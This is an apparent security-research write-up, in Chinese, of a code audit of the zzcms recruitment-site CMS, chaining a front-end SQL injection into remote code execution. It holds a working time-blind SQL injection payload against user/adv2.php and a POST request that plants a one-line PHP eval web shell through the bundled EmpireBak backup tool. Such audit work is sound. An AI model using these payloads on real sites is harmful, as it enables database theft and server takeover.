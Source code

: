

# 招商网管理系统从前台 SQL 注入到 RCE - 先知社区

招商网管理系统从前台 SQL 注入到 RCE

- - -

### 0x00 前言

**产品说明：**  
zzcms 是产品招商型模板程序，可快速搭建产品招商网。例如医药招商，保健品招商，化妆品招商，农资招商，孕婴童招商，酒类副食类等。  
**最新源码下载地址：**  
[http://www.zzcms.net/download/zzcms2023.zip](http://www.zzcms.net/download/zzcms2023.zip)  
**安装要求：**  
Windows 平台——IIS/Apache/Nginx + PHP4/PHP5.2/PHP5.3/PHP7 + MySQL4/5  
Linux/Unix 平台——Apache + PHP4/PHP5/PHP7 + MySQL4/5 (PHP 必须在非安全模式下运行)

### 0x01 软件目录结构

```plain
/install 安装程序目录（安装时必须有可写入权限）
/admin 默认后台管理目录（可任意改名）
/user 注册用户管理程序存放目录
/skin 用户网站模板存放目录;更多用户网站模板可从 zzcms.net 下载
/template 系统模板存放目录;更多系统模板可从 zzcms.net 下载
/inc 系统所用包含文件存放目录
/area 各地区显示文件
/zhaoshang 招商程序文件
/pinpai 品牌
/daili 代理
/zhanhui 展会
/company 企业
/job 招聘
/zixun 资讯
/special 专题
/ask 问答
/zhanting 注册用户展厅页程序
/one 专存放单页面，如公司简介页，友情链接页，帮助页都放在这个目录里了
/ajax ajax 程序处理页面
/reg 用户注册页面
/3 第三方插件存放目录
/3/ckeditor CK 编缉器程序存放目录
/3/alipay 支付宝在线支付系统存放目录
/3/tenpay 财富通在线支付系统存放目录
/3/qq_connect2.0 qq 登录接口文件
/3/ucenter_api discuz 论坛用户同步登录接口文件
/3/kefu 在线客服代码
/3/mobile_msg 第三方手机短信 API
/3/phpexcelreader PHP 读取 excel 文件组件
/cache 缓存文件
/uploadfiles 上传文件存放目录
/daili_excel 要导入的代理信息 excel 表格文件上传目录
/image 程序设计图片，swf 文件存放目录
/js js 文件存放目录
/html 静态页存放目录
/update 版本升级更新时，数据库更新文件临时存放目录（规则文件中指定的排除目录）
```

### 0x02 开始审计

#### SQL 注入

这个项目在 inc/conn.php 文件中定义了数据库操作相关的方法，需要操作数据库的地方都会引入它，例如 ajax/asktitlecheck\_ajax.php。

[![](assets/1707953802-ec20ad8fdc25fa19c8d3cfebed8f1c0f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240205171442-ff195a40-c406-1.png)

进入 inc/conn.php 文件里，可以看到引入了挺多文件，其中/inc/global.php 做了一系列安全过滤的操作。

[![](assets/1707953802-f5e3b217b677cf97cf1d2f380fff7d01.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240205171840-8d200c62-c407-1.png)

进入 inc/global.php 文件里，可以看到$\_COOKIE、$\_POST、$\_GET 都被 addfxg() 方法处理过。

[![](assets/1707953802-5a7944ee3ea9a5ebe8324efb5128780c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240205172243-1df62974-c408-1.png)

进入 inc/function.php 文件里，addfxg() 方法在此定义，可以看到数据会经过 htmlspecialchars 或 addslashes 处理，那么基本上单引号、双引号、反斜杠都不能用了。

[![](assets/1707953802-1019efe6981b0fdc0c2da7393c334187.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240205172735-cc030ffa-c408-1.png)

根据以上分析，我们在找 SQL 注入点时可以着重关注整型注入。

我在 user/adv2.php 文件的 setAdv($ispay) 方法里找到了整型注入点。

[![](assets/1707953802-cdb343e222bad29b7e0275cc504485b9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240205190828-e3bce5f4-c416-1.png)

这个文件引入了 user/check.php 验证用户权限，我们需要先注册一个用户。

[![](assets/1707953802-f3bedc6eb1ecf0d38ac949eade536bb0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240205174528-4b2e9f4a-c40b-1.png)

访问 [http://localhost/reg/userreg.php](http://localhost/reg/userreg.php) 页面注册一个用户，注意用户类型需要选择公司。

[![](assets/1707953802-9efc4367b8323cb72971e72064be572d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240205174940-e1894eae-c40b-1.png)

在 user/adv2.php 文件里会判断用户类型，个人用户会让代码执行不到注入点。

[![](assets/1707953802-2638e14076434a5a9bb1752f4b270430.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240205175057-0fc3a74c-c40c-1.png)

发布展会信息，往 zzcms\_zhanhui 表里添加数据。

[![](assets/1707953802-6f9d737f50bf6915dcbe867747e6b0e5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240205182105-44fef1c4-c410-1.png)

让$c=1，这样才能继续执行到注入点。

[![](assets/1707953802-408c8a83fe04779a54695d211d8e3c7a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240205182514-d9e81bda-c410-1.png)

设置自助广告，往 zzcms\_textadv 表里添加数据。

[![](assets/1707953802-87d30c88c612ba8adf259b8d9096f2c6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240205182803-3e78de7c-c411-1.png)

让!$row=false，同上。

[![](assets/1707953802-4eb0222e84ca376cc37eaac400008871.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240205182917-6a83934a-c411-1.png)

要执行到 setAdv($ispay) 方法需要将$action 变量设置为 modify，$action 变量通过$\_REQUEST\['action'\]获得。

[![](assets/1707953802-cb8a860d1a0cdd92268f9e89caa4770b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240205180314-c6ad696a-c40d-1.png)

[![](assets/1707953802-fac18b61299125d73682963c79f2e514.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240205180511-0cd098ea-c40e-1.png)

构造请求，测试触发时间盲注。

[![](assets/1707953802-5acf9da9bf290880c97b4322eec3b7f5.gif)](https://xzfile.aliyuncs.com/media/upload/picture/20240205183945-e099f852-c412-1.gif)

post 数据：`id=1 | (select * from (select if(ascii(substr(database(),1,1))=0x7a,sleep(1),1))A)`

### 文件写入 RCE

通过 SQL 注入我们可以获取到后台管理员的账户密码，也就是有后台管理员权限了。后台的功能点较多，我们可以从后台寻找 RCE 漏洞。

在后台发现使用 EmpireBak v5.1 来备份数据库文件，使用后台管理员的账户密码即可登录。

[![](assets/1707953802-9aeac425872e599f14be1bca8babf607.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240205202711-e324953c-c421-1.png)

EmpireBak v5.1 的 3/E\_bak5.1/upload/class/functions.php#Ebak\_DoEbak($add) 可以写入一句话木马 getshell。

[![](assets/1707953802-120c2e00689c178fbcecd68909424484.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240205203148-8811ad96-c422-1.png)

在 3/E\_bak5.1/upload/phomebak.php 文件里调用了 Ebak\_DoEbak($add) 方法。

[![](assets/1707953802-e51f0d8c238fb528728260f31d7660aa.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240205203427-e69de69a-c422-1.png)

构造请求写入一句话木马 getshell。

[![](assets/1707953802-21b8931abedb2a80cec43da918eafa9e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240205203945-a45d0724-c423-1.png)

post 数据：`phome=DoEbak&mydbname=shell&tablename[]=1]=1;eval($_POST[0]);//&filesize=1&baktype=1&bakline=1&baktype=1&mypath=./`

shell 文件会保存在 3/E\_bak5.1/upload/bdata/config.php。

[![](assets/1707953802-37ce0c32d3f962cda218976b48bb6006.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240205204447-58157670-c424-1.png)

RCE。

[![](assets/1707953802-3785ec8e7b16efe6074352e38749e885.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240205204758-ca0904ea-c424-1.png)

### 总结

代码审计时需要先分析系统做了哪些安全处理，在根据分析结果着重去挖掘，这样能事半功倍。  
当 sql update 语句更新的表中没有数据时可以使用位运算符（&、|、^、~）或者算术运算符（+、-、\*、/、%）来执行注入，同样适用于 delete、insert、select 语句。  
[![](assets/1707953802-014da763e6cde5fbbdb5ed3a952da034.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240205210359-06cf4734-c427-1.png)
